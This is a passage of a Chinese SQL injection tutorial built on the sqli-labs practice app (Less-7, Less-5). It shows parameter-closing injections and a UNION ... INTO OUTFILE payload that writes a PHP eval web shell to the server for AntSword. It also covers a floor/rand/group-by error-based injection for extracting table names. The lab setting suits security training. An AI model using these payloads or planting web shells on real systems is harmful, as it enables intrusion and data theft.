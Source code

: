 #### 反复增加引号或括号个数，尝试闭合参数id，最后得出正确界面

```http
http://127.0.0.1/sqli/Less-7/?id=1')) --+
```

#### 可以写入一句话，然后使用蚁剑连接

```http
http://127.0.0.1/sqli/Less-7/?id=-1')) union select 1,2,'<?php eval($_POST["ezy"]);?>' into outfile "F:\\phpstudy_pro\\PHPTutorial\\WWW\\sqli\\Less-7\\1.php" --+
```

![f23]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f23.png)

***
## mysql报错注入
### 以less-5为例
![f24]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f24.png)

### 利用 floor(),rand(),group by进行报错注入

```http
http://192.168.0.104/sqli/Less-5/?id=0' union select 1,2,count(*)  from information_schema.columns group by concat((select table_name from information_schema.tables where table_schema = database() limit 3,1),0x3a,floor(rand(0)*2)) --+
```

> * 注意只能返回一行数据，所以使用limit

#### 返回结果
![f25]({{site.baseurl}}/assets/images/images_of_sql_injection/mysql_injection_f25.png)

> * 通过改变payload爆出其他数据